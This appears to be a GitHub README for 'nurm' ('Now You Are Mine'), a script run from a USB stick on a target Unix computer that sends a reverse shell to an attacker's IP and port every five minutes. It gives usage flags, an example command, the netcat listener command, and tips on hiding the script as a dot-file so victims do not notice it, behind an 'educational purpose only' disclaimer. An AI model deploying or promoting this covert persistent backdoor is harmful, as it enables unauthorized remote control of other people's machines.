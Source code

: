 **This project is for educational purpose only**

## What is nurm?
"Now You Are Mine"(nurm) is an automatic reverse shell script that is designed to be placed and run on the target unix computer via the portable usb drive.

## What does it do?
Once run from the usb, nurm will send the reverse shell to any ip address and port that the user specified every five minutes, allowing the following device with the given ip address to access an interactive shell of the target given that the device is listening to the port specified.

## Usage
**nurm**  
1) Download the script to your favorite usb stick
2) Run the script on the target machine once.  
   **Usage(v 1.3)**: `./nurm [-a ipaddress] [-p port] [-f full-path-filename] [-c]`  
   [-a ip address] - the ip address that the reverse shell will be sent through.  
   [-p port] - the port that is used for the udp connection  
   [-f full-path-filename] - the file with its full path that the reverse shell script will be stored  
3) Use nc -lvp [port] on the ip address  
4) The interactive shell will be sent every 5 minutes

## Examples
`./nurm -a 127.168.123.98 -p 8987 -f /home/user1/.test` will create a script that will send the reverse shell to the address 127.168.123.98 at port 8987 and store the script to /home/user1/.test  
`./nurm` will create a script according to the configuration in nurm.conf

## Precautions/ Tips
1) Always hide the file with ".". For example, .test. This way, many unexperienced users will never be ware of the script.
2) The listening device should either be a server or a computer with static ip address. Otherwise, your computer can only be used once.
3) Use the nurm.conf to keep track of your server port and to save your time.
4) For optimization reason, **the variable order of nurm.conf is designed to be unchanged. Changing the order of dport variable will break the config file.**
4) **This script is for educational purpose only. Don't use it to do illegal activities. You are the only responsible for your actions!**

## Status
Currently only support netcat reverse shell.
Now supports config file to save your time.
Supports partial override 

## Upcoming features
- most reverse-shell support for common langauges
